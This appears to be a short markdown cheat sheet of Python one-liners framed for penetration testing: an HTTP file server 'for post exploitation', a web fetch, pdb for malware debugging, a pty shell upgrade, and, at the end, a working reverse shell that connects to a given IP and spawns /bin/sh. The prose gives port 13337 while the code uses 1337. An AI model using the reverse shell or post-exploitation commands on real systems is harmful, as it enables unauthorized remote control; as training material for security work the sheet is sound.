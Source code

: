 # Cool Python Tricks

Please do not use Python 2 and work using Python 3. However, I have added a few examples of the old ways of doing these operations in Python 2 for your reference only.

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
```
python -m SimpleHTTPServer 1337
```

### In Python 3.x
```
python3 -m http.server 1337
```

----
## Pythonic Web Client

### In Python 2.x
```
python -c 'import urllib2; print urllib2.urlopen("https://www.python.org/").read()' | tee /tmp/file.html
```

### In Python 3.x
```
python3 -c 'import urllib.request; urllib.request.urlretrieve ("https://www.python.org/","/tmp/python.html")'
```

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

```
python -m pdb <some_python_file>
```

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 192.168.78.205) and the port (instead of 13337) below:

```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.78.205",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```